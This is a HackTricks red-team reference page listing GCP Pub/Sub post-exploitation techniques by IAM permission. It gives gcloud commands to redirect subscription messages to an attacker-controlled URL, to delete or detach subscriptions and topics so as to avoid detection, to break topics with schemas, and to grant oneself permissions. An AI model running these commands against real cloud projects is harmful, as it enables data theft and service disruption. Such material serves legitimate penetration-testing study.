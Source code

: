 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

For more information about Pub/Sub check the following page:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publish a message in a topic, useful to **send unexpected data** and trigger unexpected functionalities or exploit vulnerabilities:

```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```

### `pubsub.topics.detachSubscription`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.

```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```

### `pubsub.topics.delete`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.\
It's possible to delete a topic even with subscriptions attached to it.

```bash
gcloud pubsub topics delete <TOPIC NAME>
```

### `pubsub.topics.update`

Use this permission to update some setting of the topic to disrupt it, like `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Give yourself permission to perform any of the previous attacks.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Get all the messages in a web server:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Create a subscription and use it to **pull messages**:

```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```

### `pubsub.subscriptions.delete`

**Delete a subscription** could be useful to disrupt a log processing system or something similar:

```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```

### `pubsub.subscriptions.update`

Use this permission to update some setting so messages are stored in a place you can access (URL, Big Query table, Bucket) or just to disrupt it.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attack a schema to a topic so the messages doesn't fulfil it and therefore the topic is disrupted.\
If there aren't any schemas you might need to create one.

{% code title="schema.json" %}
```json
{
    "namespace": "com.example",
    "type": "record",
    "name": "Person",
    "fields": [
        {
            "name": "name",
            "type": "string"
        },
        {
            "name": "age",
            "type": "int"
        }
    ]
}
```
{% endcode %}

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
    --schema=projects/<project-name>/schemas/<topic-id> \
    --message-encoding=json
```

### `pubsub.schemas.delete`

This might look like deleting a schema you will be able to send messages that doesn't fulfil with the schema. However, as the schema will be deleted no message will actually enter inside the topic. So this is **USELESS**:

```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```

### `pubsub.schemas.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

This is will create a snapshot of all the unACKed messages and put them back to the subscription. Not very useful for an attacker but here it's:

```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
    --subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
    --snapshot=YOUR_SNAPSHOT_NAME
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
